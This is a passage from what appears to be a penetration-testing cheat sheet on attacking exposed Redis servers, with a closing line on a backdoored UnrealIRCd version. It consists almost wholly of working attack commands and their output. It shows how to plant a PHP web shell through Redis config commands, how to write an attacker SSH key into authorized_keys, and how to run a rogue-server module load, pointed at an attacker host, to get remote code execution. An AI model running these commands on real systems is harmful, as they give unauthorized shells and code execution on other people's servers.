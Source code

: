 ```bash
## save with error "(error) ERR"
## read the file to get redis write dir, /etc/systemd/system/redis.service
192.168.120.85:6379> config set dir /opt/redis-files
OK
192.168.120.85:6379> config set dbfilename test.php
OK
192.168.120.85:6379> set test "<?php system('id'); ?>"
OK
192.168.120.85:6379> save
OK
192.168.120.85:6379> 

curl http://ip/test.php
```

### redis - SSH
+ write ssh pub and ssh via private key.

```bash
# ssh get shell
## generate key
ssh-keygen -t rsa
(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt # echo to file
cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key         # import file to redis

## save public key to authorized_keys 
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK

## ssh to target
ssh -i id_rsa redis@$tip

## load redis module to rce
python ./redis-rogue-server.py --rhost $tip --rport 6379 --lhost $kip --lport 6379

```

###  module load
+ load module to rce
+ upload so via http/ftp/smb/other service
+ [redis ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) 
+ redis 5.0.x [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) 

## 6697-IRCd
+ ircd, unrealIRCd; 3.2.8.1 backdoor
+ nc connect, USER command enum the version.
